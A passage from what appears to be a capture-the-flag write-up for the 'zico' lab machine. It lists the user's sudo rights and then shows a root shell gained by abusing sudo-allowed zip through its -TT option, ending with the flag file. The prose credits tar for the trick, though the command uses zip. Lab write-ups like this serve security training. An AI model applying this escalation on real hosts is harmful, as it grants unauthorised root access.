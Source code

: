 -rw-r--r--  1 zico zico     675 Jun  8  2017 .profile
drw-------  2 zico zico    4096 Jun  8  2017 .ssh
drwxrwxr-x  6 zico zico    4096 Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico      61 Jun 19  2017 to_do.txt
-rw-------  1 zico zico    3509 Jun 19  2017 .viminfo
drwxr-xr-x  5 zico zico    4096 Jun 19  2017 wordpress
-rw-rw-r--  1 zico zico 8901913 Jun 19  2017 wordpress-4.8.zip
-rw-rw-r--  1 zico zico    1194 Jun  8  2017 zico-history.tar.gz
{% endhighlight %}

And after checking what commands user is able to execute with `sudo`, both `tar` and `zip` commands are available. 

{% highlight text %}
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
{% endhighlight %}

Doing another bit of searching I've noticed a cool way to execute commands with `tar`. Check it out [here](https://www.securusglobal.com/community/2014/05/14/solutions-to-the-sudo-challenge/S
). 

{% highlight text %}
zico@zico:~$ sudo zip test.zip to_do.txt -T -TT 'sh -c /bin/bash'
  adding: to_do.txt (deflated 2%)
root@zico:~# cd /root
root@zico:/root# ls -la
total 44
drwx------  4 root root 4096 Jun 19  2017 .
drwxr-xr-x 24 root root 4096 Jun  1  2017 ..
-rw-------  1 root root 5723 Jun 19  2017 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jun  1  2017 .cache
-rw-r--r--  1 root root   75 Jun 19  2017 flag.txt
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
drwxr-xr-x  2 root root 4096 Jun  8  2017 .vim
-rw-------  1 root root 5963 Jun 19  2017 .viminfo
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
{% endhighlight %}